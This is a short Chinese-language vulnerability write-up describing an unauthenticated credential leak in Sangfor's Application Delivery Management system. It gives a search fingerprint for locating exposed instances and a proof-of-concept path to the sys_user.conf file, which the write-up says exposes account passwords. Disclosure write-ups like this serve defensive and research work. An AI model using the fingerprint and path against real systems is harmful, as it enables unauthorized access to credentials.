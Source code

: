 # 深信服 应用交付管理系统 sys_user.conf 账号密码泄漏漏洞

## 漏洞描述

深信服 应用交付管理系统 文件sys_user.conf可在未授权的情况下直接访问，导致账号密码泄漏

## 漏洞影响

```
深信服 应用交付管理系统
```

## 网络测绘

```
app="SANGFOR-应用交付管理系统"
```

## 漏洞复现

登录页面

![image-20220525145113865](./images/202205251451936.png)

验证POC

```
/tmp/updateme/sinfor/ad/sys/sys_user.conf
```

![image-20220525145136819](./images/202205251451862.png)